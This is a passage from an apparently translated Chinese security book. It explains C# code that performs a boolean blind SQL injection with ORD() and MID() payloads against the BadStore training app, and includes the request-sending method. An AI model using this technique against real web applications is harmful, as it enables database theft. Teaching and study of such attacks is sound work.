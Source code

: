 > string response = MakeRequest (getCount);
> 
> 如果(response.➐Contains("parentheses not balanced"))
> 
> {
> 
> countBytes.➑Add((byte)c);
> 
> break;
> 
> }
> 
> }
> 
> }

列表 2-44: 检索 userdb 表中行数的操作

在列表 2-44 中使用的 SQL 负载与之前用于检索计数的 SQL 负载略有不同。我们使用 ORD() ➊和 MID() ➋ SQL 函数。

ORD()函数将给定输入转换为整数，而 MID()函数根据起始索引和长度返回特定的子字符串。通过同时使用这两个函数，我们可以从 SELECT 语句返回的字符串中一次选择一个字符并将其转换为整数。这使我们能够将字符串中字节的整数表示与我们在当前迭代中测试的字符值进行比较。

MID()函数需要三个参数：你要选择子字符串的字符串 ➌；起始索引（是从 1 开始的，而不是 0，如你可能预期的那样） ➍；以及要选择的子字符串的长度 ➎。请注意，MID()的第二个参数 ➍ 由最外层 for 循环的当前迭代决定，我们在该循环中将 i 增加到上一个 for 循环确定的 count 长度。这个参数选择了我们在迭代时要测试的下一个字符。内部 for 循环遍历 ASCII 字符 0 到 9 的整数等价值。由于我们只是想获取数据库中的行数，所以我们只关心数字字符。

在布尔注入攻击中，i ➍ 和 c ➏ 变量都被用在 SQL 负载中。变量 i 作为 MID()函数的第二个参数，决定了我们将测试的数据库值中的字符位置。变量 c 是我们将 ORD()函数的结果与之比较的整数，该函数将 MID()返回的字符转换为整数。这使我们能够遍历数据库中给定值的每个字符，并使用真假问题进行暴力破解。

当负载返回"括号不匹配"错误 ➐ 时，我们知道索引 i 处的字符等于内循环中的整数 c。然后，我们将 c 转换为字节并将其添加到在循环前实例化的 List<byte> ➑ 中。最后，我们跳出内循环，继续外循环，直到所有 for 循环完成后，我们将 List<byte>转换为可打印的字符串。

然后，将该字符串打印到屏幕上，如清单 2-45 所示。

> int count = int.Parse(Encoding.ASCII.➊GetString(countBytes.ToArray()));
> 
> Console.WriteLine("There are "+count+" rows in the userdb table"); 清单 2-45：通过 SQL 注入获取的字符串转换并打印表中的行数

我们使用 GetString()方法 ➊（来自 Encoding.ASCII 类）将 countBytes.ToArray()返回的字节数组转换为可读的字符串。然后将该字符串传递给 int.Parse()，它解析字符串并返回一个整数（如果字符串能够转换为整数）。最后，使用 Console.WriteLine()将字符串打印出来。

MakeRequest() 方法

我们即将准备好执行我们的攻击，只差一件事：我们需要一种方法在 for 循环中发送负载。为此，我们需要编写 MakeRequest() 方法，它接受一个参数：要发送的负载（见 列表 2-46）。

> private static string MakeRequest(string payload)
> 
> {
> 
> string url = ➊"http://192.168.1.78/cgi-bin/badstore.cgi?action=search&searchquery=";
> 
> HttpWebRequest request = (HttpWebRequest)WebRequest.➋Create(url+payload);
> 
> string response = string.Empty;
> 
> using (StreamReader reader = new ➌StreamReader(request.GetResponse().GetResponseStream()))
> 
> response = reader.ReadToEnd();
> 
> return response;
> 
> }
